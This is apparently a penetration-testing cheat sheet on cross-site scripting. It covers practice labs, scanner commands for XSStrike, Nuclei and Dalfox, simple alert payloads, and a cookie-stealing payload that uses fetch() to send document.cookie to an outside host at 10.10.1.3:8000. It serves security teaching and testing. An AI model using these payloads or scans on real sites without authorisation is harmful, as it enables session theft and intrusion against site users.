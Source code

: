 ```yaml
---
description: Cross-site scripting cheat sheet
---
```


# XSS

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

### Playground

* [https://tryhackme.com/r/room/axss](https://tryhackme.com/r/room/axss)
* [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php)
* [https://xss-labs.abay.sh/xss/](https://xss-labs.abay.sh/xss/)

### Tools

**XSStrike**

XSStrike is a Cross Site Scripting detection suite equipped with four hand written parsers, an intelligent payload generator, a powerful fuzzing engine and an incredibly fast crawler.

* [https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)

{% code overflow="wrap" %}
```bash
# Install
git clone https://github.com/s0md3v/XSStrike
cd XSStrike
python3 -m venv xsstrike_env
source xsstrike_env/bin/activate
pip3 install -r requirements.txt

# run
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php?a=fuzz" --fuzzer
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php" --crawl -l 3
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php?a=fuzz" --file xss.txt
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj6vjZhXx_XMXjyfIXlDcQ3olR_mJFJ9vyJkDZqUOYNnQCzWDGUce_pb9cGm-TB4wN8g2RChnbB9DOY6ktcPmhpdAa2YNp4sdZKLcYpWKy_-WVCJCnAzvLsT4lhmWRRbVWPYQM9GIYEb0vWxgs92zbVWWtZnZerrO9NsErx2te4t_x4rz9pMxvWNXQetrw/s955/xsstrike.png" alt=""><figcaption><p>XSStrike</p></figcaption></figure>

**Nuclei**

Nuclei has some cool XSS detection template that can be used to hunt low hanging fruit XSS.

{% code overflow="wrap" %}
```bash
nuclei -u "https://brutelogic.com.br/xss.php?a=" -tags xss
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiKsc7jaQE8ZSpeD6GKn80EHz74yUCi4kYhDz9cvS3gyxFa42vuwwVRQWWHPdEh6CJ5t_eY2rqml331wuze62eDs7-1DFqkVO8B21XW9z1spp8AfCYyFILb7F2rGlE8JobvylS_qMAYM5ou_Ak9swAkjA1nOf5_Pe8LJV2m4MgOIw-HT4kTOg9TRzsQaBs/s1195/xss%20nuclei.png" alt=""><figcaption><p>Nuclei XSS</p></figcaption></figure>

**Dalfox**

DalFox is a powerful open-source tool that focuses on automation, making it ideal for quickly scanning for XSS flaws and analyzing parameters. Its advanced testing engine and niche features are designed to streamline the process of detecting and verifying vulnerabilities.

* [https://github.com/hahwul/dalfox](https://github.com/hahwul/dalfox)

Usage:

{% code overflow="wrap" %}
```bash
# basic scan
dalfox url https://brutelogic.com.br/xss.php

# scan with custom payload
dalfox url https://brutelogic.com.br/xss.php --custom-payload xss-payload.txt --skip-bav --only-custom-payload
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEggKvGxnkyI8R8QbZHtRDE7WYJkzhL1UcdB8LQYOK4iB54OFu0pC0OCcCEAjqWRq22Jx7ps2c-clA2GGUehA9IZ3cJwcx0NJ4yPLAP6VaV1R2m9kAed6VNdU8lcZVcxx7mLmnnXAGnf3PlxcAGTYXXVEYAOmM3j0YIjJHk6i5sIGcsXqEKjdtXJy7hGqDA/s923/dalfox.png" alt=""><figcaption><p><strong>Dalfox</strong></p></figcaption></figure>

### Simple Payload

This is a simple payload that I commonly use for XSS testing.

{% code overflow="wrap" %}
```javascript
" autofocus onfocus=alert(document.domain) x="
"/><img src=x onerror=alert(document.domain) />
```
{% endcode %}

For Cookie Stealing

{% code overflow="wrap" %}
```javascript
<img src="x" onerror="fetch('http://10.10.1.3:8000?c=' + encodeURIComponent(document.cookie))">
```
{% endcode %}

### Resources

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
* [https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt](https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt)
